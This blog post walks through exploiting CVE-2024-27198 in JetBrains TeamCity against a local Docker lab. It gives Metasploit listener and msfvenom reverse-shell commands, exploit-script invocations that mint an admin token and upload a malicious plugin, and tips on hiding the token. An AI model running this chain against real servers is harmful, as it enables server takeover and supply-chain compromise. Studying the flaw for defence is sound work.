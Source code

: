 ```yaml
---
title: 'TeamCity Authentication Bypass Vulnerability - CVE-2024-27198'
date: '2024-3-10'
category:
  - 'security'
tags:
  - 'cve'
  - 'teamcity'
  - 'exploit'
  - 'jetbrains'
summary: Learn how to exploit CVE-2024-27198, a critical authentication bypass vulnerability found in JetBrains TeamCity's web component.
coverImage: '/static/images/teamcity.jpg'
---
```

# Understanding CVE-2024-27198: A Critical Authentication Bypass Vulnerability

## Introduction

[CVE-2024-27198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27198) is a severe security flaw with a CVSSv3 score of 9.8, indicating its critical nature. This vulnerability is present in the web component of JetBrains TeamCity and is caused by an alternate path issue, which can be exploited to bypass authentication mechanisms.

## Detailed Exploit Analysis

The vulnerability stems from a weakness in the `BaseController` class within the `web-openapi.jar` library of TeamCity. When an API endpoint receives a request appended with `.jsp`, the `BaseController` class erroneously allows the request to bypass the standard authentication process. This flaw can be exploited by an attacker to gain unauthorized administrative access to the TeamCity server. [[Source](https://www.wiz.io/blog/jetbrains-teamcity-authentication-bypass-vulnerabilities-cve-2024-27198-cve-2024-27199)]

### The Alternate Path Issue

An alternate path issue occurs when software provides an unintended route to a goal that should be protected by authentication. In the case of CVE-2024-27198, the alternate path allows attackers to manipulate the URL to access authenticated endpoints directly, bypassing the login mechanism and gaining full control over the server.

### The Impact on TeamCity

Exploiting CVE-2024-27198 grants attackers complete control over all TeamCity projects, builds, agents, and artifacts. This level of access not only compromises the integrity of the server but also opens the door to more extensive supply chain attacks, where the attacker could insert malicious code into software builds.

## Setting Up and Executing the Exploit on Kali Linux

To demonstrate the exploit, one can set up a vulnerable TeamCity environment using Docker on Kali Linux:

```bash
# Pull a vulnerable TeamCity Server docker image (version: 2023.11.3)
docker pull jetbrains/teamcity-server:2023.11.3

# Run the docker container
docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
```
Navigate to http://localhost:8111 and complete the setup steps to finish server setup.

### Prepare the listener
In a separate terminal window open a listener:
```bash
# Open a listener in metasploit 
msfconsole -q -x "use multi/handler; set payload java/jsp_shell_reverse_tcp; set lhost eth0; set lport 8088; exploit"
```


### Execute! Execute! Execute! 💥
After the server and listener are running, the exploit can be executed using the provided Python script.

Let's think about this realistically for a moment. The vulnerability allows us to bypass authentication and execute functionality via available JSPs. With that in mind, let's approach this from a stealth engagement perspective. We should first list the users on the server, obtain the userID we are interested in (preferably an admin), and then create a token for the admin with a realistic name (such as `cicdconnector`).

> It would be a safe assumption that an admin user likely exists at `userid=1` but it is good practice to check. 

So let's do that now! In a terminal run the following:

```bash
# Clone the exploit repository
git clone https://github.com/NetPenguins/CVE-2024-27198-RCE
cd CVE-2024-27198-RCE

# Create a jsp shell, I like to use https://www.revshells.com to do basic and quick executions like this. 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=eth0 LPORT=8088 -f raw -o shell.jsp

# Execute the exploit script gathering all users
python CVE-2024-27198-RCE.py -t http://localhost:8111 -g

# User the userid you found to complete the exploit into RCE
python CVE-2024-27198-RCE.py -t http://localhost:8111 -i 1 -f shell.jsp -e -n cicdconnection
```

This script will create a new access token named `cicdconnection` using the user ID we pass in. 
Then it will create a plugin `.zip` using the `shell.jsp` we generated previously and upload + activate the plugin. 
Lastly, it will launch the malicious JSP using the user's token, opening a connection to the established listener. 
In this way, we are able to leverage a user that already exists and generate an access token that looks like a plausible token this user might have generated. 
The only thing that stands out at this point (excluding the noise we are likely making on the network) is the addition of an external plugin inside the TeamCity server.


## Conclusion

CVE-2024-27198 is a critical vulnerability that requires immediate attention from administrators of TeamCity On-Premises installations. The alternate path issue at the heart of this vulnerability highlights the importance of thorough security practices in software development and the necessity of regular updates and patches.

